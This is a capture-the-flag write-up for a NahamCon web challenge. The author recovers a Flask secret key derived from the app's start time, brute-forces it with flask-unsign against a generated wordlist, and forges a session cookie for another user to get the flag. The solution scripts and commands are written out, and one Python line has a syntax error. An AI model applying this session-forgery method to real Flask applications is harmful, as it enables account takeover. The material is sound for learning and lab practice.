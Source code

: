 # Challenge Name: Thomas DEVerson


![date](https://img.shields.io/badge/date-23.05.2024-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-175-blue.svg)  

## Description

Author: @Jstith  
  
All things considered, I'm impressed this website is still up and running 200 years later.  
  
## Detailed solution

![Pasted image 20240525232509](https://github.com/BaadMaro/CTF/assets/72421091/f452f6c5-cfa2-4f21-b0e5-69358adcd8e4)

Start checking the pages. I found a comment on the Messages page view-source:http://challenge.nahamcon.com:32723/messages

```html
<!-- <a href="/backup" class="pl-md-0 p-3 text-white">Backup</a> !-->
```

http://challenge.nahamcon.com:32723/backup

![Pasted image 20240525232639](https://github.com/BaadMaro/CTF/assets/72421091/ca88130f-7376-4769-b8f8-1de85ba0d6b8)

We have a part of the app.py (10 lines) 

We can clearly see the app secret used for flask cookie management and also users.

The secret key is linked to the date time of app start, which is available at http://challenge.nahamcon.com:32723/status

The cookie used was `eyJuYW1lIjoiZ3Vlc3QifQ.ZlJnJQ.v6T-LeB_sG7QtOz-9nts1T9-jyA` which has the part {"name":"guest"} (using base64 decode).

Now we need to get the exact time used for secret key to forge our cookie using one of the allowed users

Getting the date http://challenge.nahamcon.com:32723/status

```
System healthy! Computing uptime... 82816 days 12 hours 41 minutes
```

```python
from datetime import datetime, timedelta

# Get the current date and time
now = datetime.now()

# Define the duration to subtract
days = 82816
hours = 12
minutes = 41

# Create a timedelta object for the duration
duration = timedelta(days=days, hours=hours, minutes=minutes)

# Calculate the past date and time
past_date = now - duration

# Print the result
print("past_date)
```

I got 1797-08-25. I ignored the hour and minutes to try to find them accurately.

```python
for hour in range(24):
    for minute in range(60):
        print(f"THE_REYNOLDS_PAMPHLET-17970825{hour:02}{minute:02}")
```

I saved the output in secrets.txt and started the cracking process using `flask-unsign`

```
flask-unsign -c "eyJuYW1lIjoiZ3Vlc3QifQ.Zk-uig.mX9ksf-4ohQQjnA3I6m2OlENt4Y" --wordlist secrets.txt -u --no-literal-eval

[*] Session decodes to: {'name': 'guest'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 640 attemptsLET-17970825
b'THE_REYNOLDS_PAMPHLET-179708250845'

```

We got the secret key `THE_REYNOLDS_PAMPHLET-179708250845`

Now let's generate our cookie

```
└─$ flask-unsign -c "{'name': 'Jefferson'}" --secret "THE_REYNOLDS_PAMPHLET-179708250845" --sign
eyJuYW1lIjoiSmVmZmVyc29uIn0.Zk-3WQ.WCy1txbI_4wuGzruToNF7FY14YQ
```

We need to change the cookie in devtools and check messages page

![Pasted image 20240525234745](https://github.com/BaadMaro/CTF/assets/72421091/56136246-ffd9-43d2-963f-4fd0fdf1588a)

## Flag

```
flag{f69f2c087b291b9da9c9fe9219ee130f}
```
